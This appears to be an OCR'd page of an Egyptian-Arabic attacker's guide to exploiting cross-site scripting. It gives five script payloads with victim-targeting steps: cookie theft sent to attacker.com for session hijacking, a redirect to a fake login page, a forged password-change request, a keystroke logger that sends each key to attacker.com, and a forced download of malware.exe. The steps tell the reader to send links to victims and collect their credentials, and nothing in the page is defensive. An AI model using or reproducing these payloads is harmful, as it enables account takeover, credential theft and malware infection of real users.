 1. **سرقة الكوكيز (Session Hijacking):**
   - **الوصف**: تستغل الثغرة عشان تسرق الكوكيز بتاعة المستخدم وتستخدمها عشان تدخل على حسابه.
   - **Payload**:
     ```html
     <script>document.location='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الخطوات**:
     1. ابعت الرابط للضحية (مثلاً في إيميل أو رسالة).
     2. لما الضحية تفتح الرابط، الكوكيز هتبعت للسيرفر بتاعك.
     3. استخدم الكوكيز في Burp Suite أو أي أداة عشان تعمل Session Hijacking.

2. **Phishing (تزييف صفحات تسجيل الدخول):**
   - **الوصف**: تعمل Redirect لصفحة تسجيل دخول مزيفة عشان تسرق بيانات الضحية.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/fake-login';</script>
     ```
   - **الخطوات**:
     1. اعمل صفحة تسجيل دخول شبه الموقع الأصلي.
     2. لما الضحية تفتح الرابط، هتترمي على الصفحة المزيفة.
     3. سجّل أي بيانات بتدخلها (زي اليوزر والباسورد).

3. **تنفيذ أوامر في سياق المستخدم:**
   - **الوصف**: تستخدم الثغرة عشان تنفذ أوامر زي تغيير إعدادات الحساب أو إرسال رسايل من حساب الضحية.
   - **Payload**:
     ```html
     <script>
       var xhr = new XMLHttpRequest();
       xhr.open('POST', 'example.com/change-password', true);
       xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
       xhr.send('new_password=attacker123');
     </script>
     ```
   - **الخطوات**:
     1. ادرس API الموقع عشان تعرف الأوامر اللي ممكن تنفذها.
     2. استخدم Payload زي ده عشان تغير كلمة السر أو تعمل أي أكشن.

4. **تسجيل ضربات المفاتيح (Keylogging):**
   - **الوصف**: تسجل كل اللي الضحية بتكتبه في الصفحة.
   - **Payload**:
     ```html
     <script>
       document.onkeypress = function(e) {
         new Image().src='attacker.com/log?key=' + e.key;
       };
     </script>
     ```
   - **الخطوات**:
     1. حط الـ Payload في الرابط.
     2. لما الضحية تكتب أي حاجة، المفاتيح هتبعت للسيرفر بتاعك.

5. **تحميل برمجيات خبيثة:**
   - **الوصف**: تخلّي المتصفح يحمل ملف خبيث (زي PDF أو EXE) لما الضحية تفتح الرابط.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الخطوات**:
     1. ارفع ملف خبيث على سيرفرك.
     2. استخدم الـ Payload عشان تخلّي المتصفح يحمل الملف.
